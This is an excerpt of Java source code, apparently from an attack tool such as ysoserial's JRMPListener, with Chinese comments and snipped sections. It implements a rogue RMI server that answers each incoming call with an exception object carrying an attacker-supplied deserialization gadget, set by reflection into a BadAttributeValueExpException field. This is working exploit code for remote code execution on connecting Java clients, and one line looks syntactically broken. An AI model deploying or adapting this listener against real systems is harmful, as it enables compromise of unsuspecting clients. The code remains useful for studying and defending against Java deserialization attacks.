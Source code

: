 ```java
                        case TransportConstants.StreamProtocol:
             				// **** SNIP ****
                        case TransportConstants.SingleOpProtocol:
                            doMessage(s, in, out, this.payloadObject);
                            break;
                        default:
                        case TransportConstants.MultiplexProtocol:
                            System.err.println("Unsupported protocol");
                            s.close();
                            continue;
                    }

                    bufOut.flush();
                    out.flush();
 			// **** SNIP ****
}
                
private void doMessage ( Socket s, DataInputStream in, DataOutputStream out, Object payload ) throws Exception {
	System.err.println("Reading message...");
    int op = in.read();
    switch ( op ) {
        case TransportConstants.Call:
            // service incoming RMI call
            doCall(in, out, payload);
	// **** SNIP ****
}      
    
private void doCall ( DataInputStream in, DataOutputStream out, Object payload ) throws Exception {
	ObjectInputStream ois = new ObjectInputStream(in) {

    ObjID read;
	try {
        read = ObjID.read(ois);
    }
	catch ( java.io.IOException e ) {
        throw new MarshalException("unable to read objID", e);
    }

	if ( read.hashCode() == 2 ) {
        ois.readInt(); // method
        ois.readLong(); // hash
        System.err.println("Is DGC call for " + Arrays.toString((ObjID[])ois.readObject()));
    }

	System.err.println("Sending return with payload for obj " + read);

    out.writeByte(TransportConstants.Return);// transport op
    // 生成MarshallOutputStream类的oos对象，开始写入payload对象
	ObjectOutputStream oos = new JRMPClient.MarshalOutputStream(out, this.classpathUrl);
    // 返回数据类型为异常类
	oos.writeByte(TransportConstants.ExceptionalReturn);
	new UID().write(oos);

	BadAttributeValueExpException ex = new BadAttributeValueExpException(null);
	Reflections.setFieldValue(ex, "val", payload);
	oos.writeObject(ex);

	oos.flush();
	out.flush();

	this.hadConnection = true;
	synchronized ( this.waitLock ) {
```